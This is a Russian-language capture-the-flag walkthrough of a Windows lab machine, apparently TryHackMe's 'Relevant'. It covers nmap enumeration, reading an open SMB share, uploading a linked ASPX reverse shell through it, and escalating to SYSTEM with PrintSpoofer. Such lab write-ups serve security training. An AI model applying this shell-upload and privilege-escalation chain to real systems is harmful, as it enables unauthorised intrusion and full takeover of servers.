 # Relevant

:white_check_mark:  [**Samba directory browsing**](#samba)

:white_check_mark: [**SeImpersonatePrivilege exploit(privesc)**](#SeImpersonate)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV -p- relevant.thm
```

```
PORT      STATE SERVICE       VERSION                                                                                                                     
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                    
|_http-server-header: Microsoft-IIS/10.0                                                                                                                  
|_http-title: IIS Windows Server                                                                                                                             
| http-methods:                                                                                                                                              
|_  Potentially risky methods: TRACE                                                                                                                      
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                       
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                               
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-02-23T14:44:13+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2022-02-22T14:23:03
|_Not valid after:  2022-08-24T14:23:03
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-02-23T14:43:33+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Главная страница **relevant.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/1.png)

<a name="samba"></a>

Посмотри что находится на **samba**:
```
smbclient -L relevant.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/2.png)

Находим директорию **nt4wrksv**, посмотрим, что в ней.
```
smbclient \\\\relevant.thm\\nt4wrksv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/3.png)

Находим файл с паролями, скачаем его:
```
get passwords.txt
```

Декодируем и получаем данные пользователей, которые увы, никуда нельзя подставить, т.к. это rabbit hole.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/4.png)

Просканировав url через **gobuster** находим директорию **nt4wrksv**. В эту директорию можно загрузить свой **shell** через **samba**. Покопавшись в интернете находим [shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/5.png)

Запускаем слушатель и открываем shell через url.
```
http://relevant.thm/nt4wrksv/shell.aspx
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

<a name="SeImpersonate"></a>

Подключившись к машине, посмотрим права командой:
```
whoami /priv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/7.png)

Мы можем видеть SeImpersonate privileges, которые могут быть использованы для повышения привилегий. Находим [эксплоит](https://github.com/dievus/printspoofer)

Закидываем эксплоит на **samba**, он будет находиться в директории **C:\inetpub\wwwroot\nt4wrksv**.

Запускаем эксплоит командой:
```
PrintSpoofer -i -c cmd
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

Получаем nt authority\system
